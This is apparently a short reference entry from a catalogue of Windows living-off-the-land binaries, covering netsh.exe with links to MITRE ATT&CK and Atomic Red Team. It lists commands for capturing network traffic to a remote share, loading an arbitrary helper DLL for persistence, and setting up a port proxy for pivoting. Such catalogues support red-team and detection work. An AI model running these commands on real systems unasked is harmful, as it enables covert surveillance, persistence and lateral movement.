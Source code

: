 ## Netsh.exe

* Functions: Execute, Surveillance

```
netsh trace start capture=yes filemode=append persistent=yes tracefile=\\server\share\file.etl    
netsh trace show status    
    
netsh.exe add helper C:\Path\file.dll	
     
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=8000 connectaddress=192.168.1.1
```

Acknowledgements:
* 

Code sample:
* 

Resources:
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Persistence/Netsh_Helper_DLL.md
* https://attack.mitre.org/wiki/Technique/T1128
* https://twitter.com/teemuluotio/status/990532938952527873

Full path:
```
c:\windows\system32\netsh.exe
c:\windows\sysWOW64\netsh.exe
```

Notes:



Detection:


 
MITRE ATT&CK:
* [Security Software Discovery](https://attack.mitre.org/wiki/Technique/T1063)
* [Netsh Helper DLL](https://attack.mitre.org/wiki/Technique/T1128)
